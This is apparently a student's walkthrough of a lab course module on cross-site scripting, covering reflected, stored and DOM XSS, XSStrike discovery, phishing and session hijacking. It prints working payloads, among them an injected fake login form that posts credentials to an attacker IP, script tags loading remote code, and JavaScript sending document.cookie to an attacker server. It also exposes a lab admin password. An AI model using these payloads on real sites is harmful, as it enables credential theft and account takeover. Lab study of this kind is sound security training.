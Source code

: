 # Cross-site scripting (XSS)

## XSS Basics

XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (low impact + high probability = medium risk), which we should always attempt to reduce risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Stored XSS

If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.

**To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

`alert(document.cookie)<script>`

### Reflected XSS

Processed entirely at the back-end of the server. Not persistent as they disappear after a page refresh. Reaches the back-end server and returns to us unfiltered and unsanitised… oh the fun we can have!

**Same task, it’s just that this doesn’t persist:**

`alert(document.cookie)<script/>`

### DOM XSS

Processed completely client-side and non-persistent (disappears after a page refresh).

This type of vulnerability exists when you can use Javascript code to alter a Document Object Model (DOM). To truly understand DOM attacks let’s talk about source and sink…

**Same as above just with DOM…**

`<img src="" onerror=alert(document.cookie)>`

### XSS Discovery

Automated Discovery

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

`python xsstrike.py -u “http://SERVER_IP:PORT/index.php?task=test"`

Manual Discovery — XSS Payloads

Long story short, I might need to do some more python classes at some point. Python scripts would make this a hell of a lot more useful later on in my XSS seeking endeavours.

**Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

**What type of XSS vuln is it?**

Literally says “Reflections found” so your answer is “reflected”.

## XSS Attacks

### Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

**Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

First we use XSStrike python script mentioned earlier to find a payload:

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

`'><a/+/OnMOUSEoVER%09=%09[8].find(confirm)>v3dm0s`

Add it to make it a valid JavaScript piece of code with the login form from earlier:

`ifconfig`

* find your IP

```
‘><script>document.write(‘<h3>Please login to continue</h3><form action=http://10.10.14.63/><input type=”username” name=”username” placeholder=”Username”><input type=”password” name=”password” placeholder=”Password”><input type=”submit” name=”submit” value=”Login”></form>’);document.getElementById(‘urlform’).remove();</script><!--
```

**Crafted malicious final URL:**

{% embed url="http://10.129.85.225/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.63%2F%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--" %}

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### admin:p1zd0nt57341myp455

go to URL: [http://10.129.85.225/phishing/login.php](http://10.129.85.225/phishing/login.php)

login to obtain FLAG

### Session Hijacking

**Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**

URL: http://10.129.85.225/hijacking/index.php

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/></script>`

**4x**

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

```
nano script.js
```

```
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

login.php -> update cookie and login

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

**What is the value of the 'flag' cookie?**

{% embed url="http://10.129.219.0/assessment/" %}

<figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Go to Recent post

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/comment></script>`

`"><script src=http://10.10.14.63:8080/name></script>`

`"><script src=http://10.10.14.63:8080/url></script>`

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

\=> VULn field is URL

```
nano script.js
```

```
new Image().src='http://10.10.14.63:8080/index.php?c='+document.cookie;
```



Write a script in the URL field

`<script src=http://10.10.14.63:8080/script.js></script>`

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>


